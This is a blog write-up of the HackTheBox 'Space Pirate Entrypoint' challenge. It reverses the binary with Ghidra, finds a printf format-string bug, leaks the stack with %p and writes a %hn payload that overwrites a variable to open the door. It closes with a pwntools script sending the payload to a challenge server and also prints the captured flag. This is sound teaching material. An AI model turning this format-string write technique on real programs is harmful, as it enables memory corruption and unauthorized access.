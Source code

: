 ```yaml
---
layout: post
title: Binary Exploitation&#58; HacktheBox/Space Pirate Entrypoint
---
```


## HacktheBox Space Pirate Entrypoint Write-up

To start, let's run the program. We are prompted for a choice between scanning our card and inserting a password. When we use the ```scan card``` option, we are asked for the card's serial number. Input leads to an Invalid ID message and the program exiting. The ```insert password``` option is similar, except is asks for a password instead of a serial.

Let's check the file type.
```
└─$ file sp_entrypoint
sp_entrypoint: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=9929f2d6b7a50a00cb151fce627175f6461c0b91, not stripped
```

We are dealing with a 64 bit ELF executable, dynamically linked, and not stripped. This is good news.

Now to check for securities on the binary.
```
└─$ checksec --file=sp_entrypoint
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   RW-RUNPATH   82 Symbols	  No	0		2		sp_entrypoint
```

Full relro, a canary, NX enable, and PIE. So no shellcode injection or overwriting the return address. Let's see what ghidra tells us.

### Reversing

The main function is fairly straight forward.
```c
undefined8 main(void)

{
  long lVar1;
  long in_FS_OFFSET;
  long local_48;
  long *local_40;
  char local_38 [40];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  local_48 = 0xdeadbeef;
  local_40 = &local_48;
  printf(&DAT_001025e0);
  lVar1 = read_num();
  if (lVar1 != 1) {
    if (lVar1 == 2) {
      check_pass();
    }
    printf(&DAT_00102668,&DAT_0010259a);
                    /* WARNING: Subroutine does not return */
    exit(0x1b39);
  }
  printf("\n[!] Scanning card.. Something is wrong!\n\nInsert card\'s serial number: ");
  read(0,local_38,31);
  printf("\nYour card is: ");
  printf(local_38);
  if (local_48 == 0xdead1337) {
    open_door();
  }
  else {
    printf(&DAT_001026a0,&DAT_0010259a);
  }
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

So it looks like to get the flag, we need to access the ```open_door()``` function. To do this, we need the variable ```local_48``` to equal ```0xdead1337```. It is initialized at the beginning ```main``` to ```0xdeadbeef```. Now we need to find a way to do that.

The first thing I notice is a format string vulnerability on this line:
```c
printf(local_38);
```

Format string vulnerabilities happen when the proper arguments are not passed to a string processing function such as ```printf```. Normally, the first argument would be the *format string*, such as ```"Hello, my name is %s!\n", the following arguments passed to the function must correspond with the format specifiers in the format string, or else ```printf``` will use the data at where the argument *should* have been. A more thorough breakdown of format strings can be found [here](https://axcheron.github.io/exploit-101-format-strings/).

How does this help us write to memeory? By using the ```%n``` specifier. This specifier will write the number of bytes expressed as an integer to the corresponding argument. For instance:
```
printf("Hello, my name is %n!\n", &num);
```

In this case, ```num``` would hold the value ```18```. We can use this to overwrite the contents of ```local_48```.

### Pwn

To leverage this vulnerability, we need to find out how many stack addresses our target it away, to do this, we simply need to input a bunch of ```%p``` where our payload should go.
```
Insert card's serial number: %p %p %p %p %p %p %p %p %p

Your card is: 0x7ffdd9766a50 0x7f062b4508c0 (nil) 0xf (nil) 0xdeadbeef 0x7ffdd97690f0 0x7025207025207025 0x2520702520702520
E�U
```

We see that ```0xdeadbeef``` is 6 arguments away, and the pointer to ```deadbeef``` is 7 arguments away. Since argument 7 points to our target, we can use argument 7 to overwrite argument 6. Now we need to simply overwrite the lowest 2 byte orders of ```0xdeadbeef``` with ```0x1337``` which, expressed as an integer, is ```4919```. Let's craft our payload and test it. Note that the format specifier for a ```short``` is ```%hn```.
```
Insert card's serial number: %4919c%7$hn 

Your card is:                         





[+] Door opened, you can proceed with the passphrase: HTB{th3_g4t35_4r3_0p3n!}
```

Now to craft the exploit.
```python
#!/usr/bin/env python3

from pwn import *

payload = b"%4919c%7$hn"

p = remote("157.245.32.12", 31901)
p.recvuntil("> ")
p.sendline(b"1")
p.recvuntil("Insert card's serial number: ")
p.sendline(payload)

p.interactive()
```

Et Voila!
